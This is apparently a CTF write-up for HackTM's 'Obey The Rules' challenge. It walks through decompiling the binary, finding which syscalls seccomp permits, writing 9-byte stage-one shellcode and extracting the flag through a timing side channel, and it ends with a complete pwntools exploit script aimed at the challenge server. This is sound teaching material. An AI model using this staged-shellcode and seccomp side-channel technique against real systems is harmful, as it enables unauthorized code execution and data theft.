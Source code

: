 ```yaml
---
layout: post
category: Pwn
title: HackTM - Obey The Rules
tags: 
    - kowu
---
```


Obey the rules was a simple pwning / shellcoding challenge at HackTM. Loading in r2 we see the following:


[Download](/assets/bin/hacktm_obey_the_rules)

```
user@KARCH ~/ctf/rules % r2 obey_the_rules
 -- Press any key to continue ...
[0x00400a70]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400a70]> s main
[0x00400ce1]> pdg

undefined8 main(void)
{
    int64_t iVar1;
    int32_t iVar2;
    undefined8 uVar3;
    int64_t in_FS_OFFSET;
    int64_t var_84h;
    int64_t var_78h;
    int64_t var_70h;
    int64_t var_8h;
    
    iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.init_proc();
    sym.imp.memset(&var_70h, 0, 100);
    sym.open_read_file((int64_t)"header.txt", 100, (int64_t)&var_70h);
    sym.imp.puts(&var_70h);
    var_84h._0_4_ = sym.open_read_file((int64_t)"description.txt", 800, (int64_t)obj.description);
    sym.imp.printf("\n    %s\n  ", obj.description);
    sym.imp.puts(" >> Do you Obey? (yes / no)");
    sym.imp.read(0, obj.answer, 0xb);
    var_84h._0_4_ = sym.open_read_file((int64_t)"RULES.txt", 0x96, (int64_t)obj.rules);
    var_84h._4_2_ = (undefined2)((int32_t)var_84h >> 3);
    iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);
    if (iVar2 < 0) {
        sym.imp.perror("prctl(PR_SET_NO_NEW_PRIVS)");
    // WARNING: Subroutine does not return
        sym.imp.exit(2);
    }
    iVar2 = sym.imp.prctl(0x16, 2, (int64_t)&var_84h + 4);
    if (iVar2 < 0) {
        sym.imp.perror("prctl(PR_SET_SECCOMP)");
    // WARNING: Subroutine does not return
        sym.imp.exit(2);
    }
    iVar2 = sym.imp.strcmp(obj.answer, "Y");
    if (iVar2 == 0) {
        sym.set_context();
    } else {
        sym.imp.system("/bin/sh");
    }
    uVar3 = 0;
    if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar3 = sym.imp.__stack_chk_fail();
    }
    return uVar3;
}

[0x00400ce1]> pdg @sym.set_context

void sym.set_context(void)
{
    int64_t iVar1;
    int64_t var_8h;
    
    iVar1 = sym.imp.strlen(obj.answer);
    obj.answer[iVar1] = (code)0x59;
    sym.imp.strcpy(_obj.region, obj.answer);
    (*_obj.region)(0x539);
    return;
}
[0x00400ce1]> 
```
First of all, we see that the r2 ghidra plugin is nice for quick decompilation needs. Second, we see what the challenge does:
 - printing some fancy headers
 - reading a maximum of 11 Bytes from stdin
 - loading seccomp rules unknown to us out of a file
 - if the input is "Y\0", it will jump into our sumbitted input and executes it (the nullybte is replaced by another 'Y')
 - else it executes /bin/sh, which is killed due to seccomp

So after excluding "Y\0" we have a total of 9 bytes left for shellcode.

## Testing for allowed syscalls

First I checked which syscalls are allowed. If a syscall was forbidden, it would report `illegal instruction`, else a `segmentation fault` occurs.
As we could not use nullbytes due to the strcpy, i checked the syscall id 0 case manually and used the following code for the other syscalls up to 255:
```
xor rax, rax;
mov al, {nr};
syscall;
ud2;
```
Which compiles down to exactly 9 bytes. The ud2 is optional and should just crash immediately if the syscall succeeded.
I found out that the syscalls (0 read, 2 open, 60 exit) are allowed.
That's enough to work with as the flag location was given and even if a write is lacking I could just use some sidechannel to exfiltrate the flag.

## Getting unlimited RCE

To get unlimited RCE I planned to reread additonal shellcode by using something like read(0, $rip, amount). We need to get:
 - rax = 0
 - rdi = 0
 - rsi = $rip
 - rdx = amount

The only "trick" I used to save bytes was using `push rbx; pop rax;` (2 bytes) instead of moving registers with `mov rax, rbx;` (3 bytes).
For getting rax = rdi = 0 I used the fact that register rbx would always be zero, which lead to the following shellcode.
```
push rbx;
push rbx;
pop rax;
pop rdi;
```
To get rsi right in front of our $rip I used the fact that the current top of stack just holds exactly that value.
```
pop rsi;
```
Lastly I wanted to read some bigger amount, so I just wrote 0xff to rdx's high byte.
```
mov dh, 0xff;
```
Two bytes left for the syscall, we are ready to overwrite the code at $rip :)
```
syscall;
```

## Sidechannels and Profit

For exfiltrating the flag there are two sidechannels which came to my mind.
 - timing based (burn cpu cycles using some loop)
 - blocked syscall based (1/0 oracle by calling a blocked syscall or exit normally)

I decided to go with the timing one. To speed things up one could implement fancy stuff like a binary search or burn CPU power depending on the currently exfiltrated character with that approach. I did not.
So here is the final script stupidly bruteforcing all possibilities. Notice that I open the file twice to increment the fd id. Because the seccomp filter seemed to block read syscalls with fd==3.

```python
from pwn import *
import time

context.clear(arch='amd64')

payload1 = asm(
    """
    push rbx;
    push rbx;
    pop rax;
    pop rdi;
    pop rsi;
    mov dh, 0xff;
    syscall;
    """
)
assert len(payload1) < 10

payload2 = (
        shellcraft.open('/home/pwn/flag.txt') +
        shellcraft.open('/home/pwn/flag.txt') +
        shellcraft.read(fd='rax', buffer='rsp', count=0x100) +
        'xor rcx, rcx;' +
        'mov al, [rsp + {}];' +
        'cmp al, {};' +
        'jne done;' +
        'mov rcx, 0x3ffffff;' +
        'times:\nloop times;done:;' +
        shellcraft.exit(0)
)


def sploit(r, idx, ch):
    r.send('Y\0' + payload1.ljust(9, '\x90') + '\x90' * 11 + asm(payload2.format(idx, ch)))


if __name__ == '__main__':
    flag = ''

    while True:
        print(flag)
        for c in string.printable:
            r = remote('138.68.67.161', 20001)
            r.recvuntil('>>')
            sploit(r, len(flag), ord(c))
            a = time.time()
            try:
                r.recvuntil('yeet')
            except EOFError:
                pass
            if time.time() - a > 0.8:
                flag += c
                break
            r.close()
```
